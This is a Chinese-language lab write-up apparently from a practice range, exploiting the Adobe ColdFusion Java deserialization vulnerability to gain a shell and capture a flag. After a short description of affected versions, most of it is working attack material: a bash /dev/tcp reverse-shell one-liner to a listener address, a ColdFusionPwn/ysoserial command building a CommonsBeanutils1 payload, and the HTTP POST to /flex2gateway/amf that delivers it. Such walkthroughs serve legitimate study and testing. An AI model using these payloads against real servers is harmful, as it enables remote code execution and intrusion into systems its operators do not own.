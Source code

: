 ### 漏洞原理
Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

### writeup

启动靶场

![](./20200516152000.png)

反弹shell的poc需要在 http://www.jackson-t.ca/runtime-exec-payloads.html 网站进行转码

反弹Shell格式

```
bash -i >& /dev/tcp/ip/port 0>&1
```

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```

攻击机执行

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 '编码后的反弹shell-poc' getshell.ser
```

执行后会生成一个getshell.ser文件

![](./20200516152446.png)

另起一终端监听端口

启动burp ， 上传ser文件

![](./20200516152827.png)

![](./20200516152929.png)

再添加HTTP头部

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:端口
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853
```
发送数据包

![](./20200516152929.png)

反弹shell，获取到flag

![](./20200516154357.png)
